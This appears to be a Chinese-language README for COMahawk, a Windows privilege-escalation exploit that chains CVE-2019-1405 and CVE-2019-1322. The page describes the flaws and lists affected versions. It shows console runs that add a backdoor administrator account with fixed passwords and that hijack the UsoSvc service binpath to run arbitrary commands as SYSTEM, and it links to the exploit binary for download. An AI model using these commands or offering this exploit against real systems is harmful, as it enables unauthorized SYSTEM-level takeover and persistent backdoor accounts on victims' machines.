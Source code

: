 ### 漏洞介绍

由NCC Group研究人员所发现的两个通过COM本地服务进行非法提权的漏洞。第一个漏洞CVE-2019-1405是COM服务中的一个逻辑错误，可让本地普通用户以LOCAL SERVICE身份执行任意命令。第二个漏洞CVE-2019-1322是一个简单的服务配置错误，可让本地SERVICE组中的任何用户重新配置以SYSTEM权限运行的服务（此漏洞也被其他研究人员发现）。当以上两个漏洞结合在一起时，就允许本地普通用户以SYSTEM权限执行任意命令。

全面检查了一些Windows服务,发现以LOCAL SERVICE或NETWORK SERVICE运行的所有用户都可以执行这种攻击。其中就包括前面我们提到的UPnP Device Host服务,这样我们就能以本地任意用户身份,结合使用CVE-2019-1405及CVE-2019-1322这两个漏洞,成功在Windows 10(1803到1903)系统上将权限提升至SYSTEM用户。

### 漏洞版本
Vendor 	Product 	Versions
Microsoft	Windows 10	-, 1607, 1709, 1803, 1809, 1903
Microsoft	Windows 7	-
Microsoft	Windows 8.1	-
Microsoft	Windows Rt 8.1	-
Microsoft	Windows Server 2008	-, R2
Microsoft	Windows Server 2012	-, R2
Microsoft	Windows Server 2016	-, 1803, 1903
Microsoft	Windows Server 2019	-

### 默认提权
```Bash
C:\Users\null\Desktop>COMahawk64.exe
[\] Progress:  1/9 2/9 3/9 4/9 5/9 6/9 7/9 8/9 9/9
[+] Hopefully k8gege:K8gege520 is added as an admin.

C:\Users\null\Desktop>net user

\\DESKTOP-3F42O5D 的用户帐户

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
k8gege                   null                     WDAGUtilityAccount
命令成功完成。
```

### 指定命令
```Bash
C:\Users\null\Desktop>COMahawk64.exe "net user k8gege K8gege123? /add"
[+] Executing command [ sc config UsoSvc binpath= "cmd.exe /c net user k8gege K8gege123? /add" ]
[\] Progress:  1/6 2/6 3/6 4/6 5/6 6/6
[+] Command executed.
C:\Users\null\Desktop>net user

\\DESKTOP-3F42O5D 的用户帐户

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
k8gege                   null                     WDAGUtilityAccount
命令成功完成。
```

### Win10提权
Teston Win10 X64 1803
![](CVE-2019-1405 & CVE-2019-1322.PNG)

### Exp

https://github.com/apt69/COMahawk

https://github.com/k8gege/K8tools/raw/master/Comahawk.rar
